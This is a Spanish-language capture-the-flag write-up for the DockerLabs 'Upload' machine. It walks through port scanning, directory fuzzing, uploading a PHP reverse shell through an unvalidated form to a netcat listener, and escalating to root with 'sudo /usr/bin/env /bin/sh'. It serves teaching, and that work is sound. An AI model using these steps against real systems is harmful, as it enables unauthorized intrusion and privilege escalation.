# 📘 Informe Técnico - Máquina: *Upload*

* **Nivel:** Fácil
* **Propósito:** Evaluar la capacidad para identificar y explotar vulnerabilidades de subida de archivos.
* **Objetivo:** Obtener acceso remoto mediante una shell inversa y escalar privilegios a root.

---



## 🛠️ Despliegue de la Máquina

Iniciamos descargando el archivo comprimido desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip upload.zip
```

Posteriormente, desplegamos la máquina vulnerable usando el siguiente comando:

```bash
sudo bash auto_deploy.sh Upload.tar
```




Verificamos que la máquina esté activa con un `ping` al contenedor:

```bash
ping -c1 172.17.0.3
```



---

## 🔎 Reconocimiento

Realizamos un escaneo de puertos completo con `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```



Luego usamos `extractPorts` para filtrar los puertos detectados y escaneamos con más detalle:

```bash
nmap -sCV -p80 172.17.0.3
```



### 🔍 Resultado:

* **Puerto 80**: Servicio HTTP activo (servidor web).

---

## 🌐 Análisis Web

Al acceder a la web en el puerto 80, observamos una interfaz simple con una opción de subida de archivos.



Realizamos un fuzzing de directorios para detectar rutas ocultas:

```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x php,html,txt
```

### 🔍 Directorios encontrados:

* `/uploads`
* `/index.html`
* `/upload.php`



Al ingresar a `/uploads`, observamos los archivos que han sido subidos previamente.

---

## ⚙️ Explotación - WebShell

En base al comportamiento de la aplicación, generamos una **PHP Reverse Shell** (`php-reverse-shell.php`). Este archivo se incluye en el repositorio como `exploit`.

Luego, iniciamos el listener en nuestra máquina atacante:

```bash
sudo nc -lvnp 443
```

Desde la interfaz de subida (`/upload.php`), cargamos nuestro archivo malicioso `.php`.



Posteriormente, al acceder al archivo desde la ruta `/uploads`, se ejecuta el payload y obtenemos una **shell inversa** como el usuario `www-data`.





---

## ⚡ Escalada de Privilegios

Una vez dentro, ejecutamos el siguiente comando para verificar los privilegios sudo:

```bash
sudo -l
```

La salida indica que el usuario `www-data` puede ejecutar `/usr/bin/env` como root **sin contraseña**:

```
(root) NOPASSWD: /usr/bin/env
```


Aprovechamos esta configuración para escalar privilegios ejecutando una shell como root:

```bash
sudo /usr/bin/env /bin/sh
```

¡Y obtenemos acceso como **root**!



---

## 🏁 Conclusión

La máquina *Upload* demuestra una vulnerabilidad común: **falta de validación en la subida de archivos**, lo cual permite la ejecución remota de comandos. La escalada de privilegios es posible gracias a una configuración de `sudo` mal gestionada que permite el uso de `env` como root sin contraseña.

> 💡 **Lección clave:** Nunca se debe permitir la ejecución de binarios como `env`, `python`, `perl`, etc., mediante sudo sin contraseña, especialmente desde usuarios de bajo privilegio como `www-data`.

---
